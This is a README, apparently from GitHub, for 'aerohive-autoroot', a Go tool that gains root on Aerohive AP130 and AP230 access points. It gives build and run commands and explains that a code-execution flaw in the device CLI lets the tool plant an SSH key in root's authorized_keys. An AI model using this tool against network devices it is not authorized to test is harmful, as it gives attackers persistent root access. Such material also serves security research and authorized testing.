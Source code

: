 # aerohive-autoroot
Privilege escalation on aerohive devices

# Tested devices

- AP130
- AP230

# Requirements
CLI access

# How to

```
go build .
./aerohive-autoroot --pubkey publickey.pub 10.0.0.1:22 # Where 10.0.0.1 is the device address
```

Wait until command completes then connect with:  

```
ssh root@10.0.0.1
```

# How it works
The Aerohive CLI has a flaw that allows code execution. Using this, it is possible to put a public key in the root users `.ssh/authorized_keys` file, and thus gain full shell.
